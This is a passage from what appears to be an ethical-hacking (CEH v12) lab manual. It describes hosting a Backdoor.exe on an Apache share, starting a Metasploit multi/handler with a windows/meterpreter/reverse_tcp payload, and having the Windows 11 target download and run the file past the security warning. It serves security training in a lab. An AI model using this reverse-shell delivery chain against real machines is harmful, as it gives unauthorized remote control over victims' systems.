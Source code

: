 ```
Note: If you want to create a new directory to share the Backdoor.exe file with the target machine and provide the permissions, use
the below commands:
```
```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
```
12. Type **cp /home/attacker/Desktop/Backdoor.exe /var/www/html/share/** and press **Enter** to copy the file to the share folder.
13. To share the file, you need to start the Apache server. Type the command **service apache2 start** and press **Enter**.

### 


14. Now, type the command **msfconsole** and press **Enter** to launch Metasploit.
15. Type **use exploit/multi/handler** and press **Enter** to handle exploits launched outside of the framework.
16. Now, issue the following commands in msfconsole:

```
Type set payload windows/meterpreter/reverse_tcp and press Enter
```
```
Type set LHOST 10.10.1.13 and press Enter
```
```
Type show options and press Enter ; this lets you know the listening port
```
### 


17. To start the handler, type **exploit -j -z** and press **Enter**.
18. Click **CEHv12 Windows 11** to switch to the **Windows 11** machine.

### 


19. Open any web browser (here, **Mozilla Firefox** ). In the address bar place your mouse cursor, type **[http://10.10.1.13/share](http://10.10.1.13/share)** and press
    **Enter**. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
20. Click **Backdoor.exe** to download the file.
21. Once you click on the **Backdoor.exe** file, the **Opening Backdoor.exe** pop-up appears; select **Save File**.

```
Note: Make sure that both the Backdoor.exe and Secret.txt files are stored in the same directory (here, Downloads ).
```
22. Double-click the **Backdoor.exe** file. The **Open File - Security Warning** window appears; click **Run**.
